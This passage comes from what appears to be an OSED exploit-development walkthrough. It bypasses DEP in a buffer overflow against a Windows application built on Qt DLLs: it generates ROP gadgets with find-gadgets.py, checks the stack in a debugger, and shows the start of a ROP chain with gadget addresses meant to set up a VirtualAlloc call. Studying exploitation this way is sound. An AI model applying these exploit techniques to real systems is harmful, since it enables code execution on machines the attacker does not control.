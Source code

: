 ## Generating Gadgets

Now, let's generate the gadgets here. We'll use the scripts form [EPI052](https://github.com/epi052/osed-scripts)

```sh
find-gadgets.py -f libgcc_s_dw2-1.dll  libstdc++-6.dll  libwinpthread-1.dll  Qt5Core.dll  Qt5Gui.dll  Qt5Network.dll  Qt5Sql.dll Qt5Xml.dll  qwindows.dll -b 00 20 -a x86 -o rop.txt
```

After that it generates all the usable gadgets to us. So, we can now start digging into that and seeing what can be useful for us.

With this huge list of gadgets, should be easy for us to perform the bypass.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:46:10.png)

We see that on the place of the EIP, we put a simple RET instruction in that. That is because we want to return to stack, near to the values we put to change.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:47:45.png)

## Sending the First Payload

We put a breakpoint on **0x6ab2223e** which is our RET instruction and then execute the payload

We see that when we reach the breakpoint, 20 bytes before our ESP we have set our fake addresses that will be changed. So we are on the right track.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:49:55.png)

When we execute the RET instruction, we go to there, where ours NOPs are seted.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:50:43.png)

What we must look here. If we see this point, even after the instruction that we executed, the 20 bytes before ESP still contains our fake values.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:13:42.png)

## Copying ESP

Now, knowing that, we have a proper place to set our values to execute the VirtualAlloc API and change the desired memory area to execute code inside it.

We'll get a copy of ESP into ECX and the decrease 20 bytes in it. That's because we want to have ECX as our place where we'll put the values to make it working. So the gadget sequence we'll use here now will be this

```py
# -> Make ESP equal to ECX (-20)
## Copy ESP to EBX, and put -20 in ESI
0x6aaf2fd3, # push esp; pop ebx; pop esi; ret;
0xffffffe0, # - 20 in ESI

## Put EBX (ESP) to ECX
0x61b460d0,  # xchg eax, ebx; ret;
0x68be726b,  # xchg eax, ecx; ret;

## Put -20 to EBP
0x68aef542,  # xchg eax, esi; ret; 
0x6d9c5993,  # xchg eax, ebp; ret; 

## ADD EBP on ECX, make 20 bytes before
0x6d9c8e42,  # add ecx, ebp; ret; 
```
